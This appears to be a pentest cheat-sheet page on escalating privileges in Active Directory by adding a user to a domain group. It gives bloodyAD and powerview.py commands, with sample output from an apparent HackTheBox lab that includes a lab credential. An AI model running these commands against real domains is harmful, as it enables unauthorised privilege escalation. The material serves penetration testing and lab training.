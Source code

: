 ```yaml
---
title: "AddMember"
date: 2024-11-1
tags: ["Powerview", "AddMember", "Domain Controller", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add User to Group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add User to Group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
# With password
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

```console
# With Kerberos
sudo ntpdate -s <DC> && sowerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k --no-pass
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET_USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

---[SNIP]---

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}